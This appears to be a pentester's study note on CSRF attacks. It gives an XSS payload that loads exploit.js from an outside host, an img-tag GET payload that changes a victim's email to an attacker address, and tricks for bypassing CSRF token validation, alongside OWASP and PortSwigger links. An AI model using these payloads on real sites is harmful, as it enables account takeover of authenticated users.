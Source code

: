 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```

##### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver
GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and js for auto submit

## Common flaws in CSRF token validation
##### Validation of CSRF token depends on request method
Try to change request method to `GET` and any other.

##### Validation of CSRF token depends on token being present
Some apps skip the token validation if it is omitted.

#### CSRF token is not tied to the user session
Attacker can log in to the app, obtain a valid tooken and feed that token to the victim in their CSRF attack.

#### CSRF token is tied to a non-session cookie
#to-be-continued 
https://portswigger.net/web-security/csrf/bypassing-token-validation